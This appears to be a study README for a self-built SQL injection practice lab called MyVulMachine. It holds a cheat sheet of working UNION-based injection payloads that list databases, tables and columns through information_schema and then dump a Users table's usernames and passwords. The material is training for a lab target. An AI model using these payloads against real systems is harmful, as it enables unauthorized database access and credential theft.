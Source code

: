 # MyVulMachine full code 
it has many mode to practice sql injection:



**cheat code **
Cheat
TABLE_SCHEMA=> TELL YOU DATABASE NAME
TABLE_NAME => TELL YOU TABLE NAME
TABLE_TYPE => TELL YOU TYPE (BASE TYPE OR,….)
SCHEMA_NAME => IT WILL GIVE YOU THE DATABASE NAME (USE WHEN SCHEMATA IS USED WITH INFORMATION_SCHEMA )
COLUMN_NAME => tell you column name

INFORMATION_SCHEMA.TABLES 

INFORMATION_SCHEMA.SCHEMATA

INFORMATION_SCHEMA.COLUMNS => by using this I can find database name, table name and column name     (table_schema,table_name,column_name)



Note:
	WHAT YOU UNDERSTAND BY LINE “information_schema.tables”
		Ans: here information_schema is database and
 tables is the metadata of table that represent all table inside database

1)Table_schema & table_name is a column of tables of database INFORMATION_SCHEMA


information_schema.tables
TABLE_CATALOG
TABLE_SCHEMA 
TABLE_NAME 
TABLE_TYPE
---------------------------------------------------------------------------------
information_schema.columns
TABLE_CATALOG 
TABLE_SCHEMA 
TABLE_NAME 
COLUMN_NAME 
DATA_TYPE
---------------------------------------------------------------------------------------------------------------------------------------------------------




1)**To Get only database**
To get DATABAE name use 
   SCHEMA_NAME in between SELECT and FROM
  INFORMATION_SCHEMA.SCHEMATA after FROM 

SELECT first_name, last_name FROM users WHERE user_id=0'UNION SELECT SCHEMA_NAME , NULL FROM INFORMATION_SCHEMA.SCHEMATA;

**Use this on MVA to get database-> 
**0'UNION SELECT SCHEMA_NAME , NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
Note: this query will show all the database present in phpmyadmin

**To Get Database & table name**
    To get TABLE name use 
       TABLE_SCHEMA in between SELECT and FROM
      INFORMATION_SCHEMA.TABLES after FROM 

SELECT first_name, last_name FROM users WHERE user_id='0'UNION SELECT TABLE_SCHEMA, table_name FROM information_schema.tables;

****Use this on MVA to get database & table name-> ****
0'UNION SELECT TABLE_SCHEMA, table_name FROM information_schema.tables-- -

**2)To Get Table Name:**
    find table_name (If you have databse name )
    To get table name use 
         TABLE_NAME in between SELECT and FROM
        INFORMATION_SCHEMA.TABLES after FROM 

SELECT first_name, last_name FROM users WHERE user_id='0' UNION SELECT table_name, table_type FROM information_schema.tables WHERE table_schema='mva'-- -';
**Use this on MVA to get table name**-
0' UNION SELECT table_name, table_type FROM information_schema.tables WHERE table_schema='mva'-- -

NOW I HAVE
	DATABASE: mva
	Table name:users

3)To get all Column (inside user table we use this query):
To get column name use 
 COLUMN_NAME in between SELECT and FROM
INFORMATION_SCHEMA.COLUMNS after FROM 
SELECT first_name, last_name FROM users WHERE user_id='0'union SELECT COLUMN_NAME,null FROM information_schema.columns WHERE table_name = 'Users';
Use this on MVA to get COLUMN name from Table->
0'union SELECT COLUMN_NAME,null FROM information_schema.columns WHERE table_name = 'Users'-- -
4)To fetch ():
Now we have
database name = mva
table name= users
columns(fild/attribue)= user_id , first_name, last_name, user, password

Use this on MVA to get all result from table: ->
0'union SELECT user,password FROM Users-- -



MVA 
1)	Find number of column:
1)order by 2
2)union null, null
2)	Database name:-
0'UNION SELECT SCHEMA_NAME , NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
3)	Database & table name:-
0'UNION SELECT TABLE_SCHEMA, table_name FROM information_schema.tables-- -
4)	Column name:-
0'union SELECT COLUMN_NAME,null FROM information_schema.columns WHERE table_name = 'Users'-- -
5)fetch:-
0'union SELECT user,password FROM Users-- -



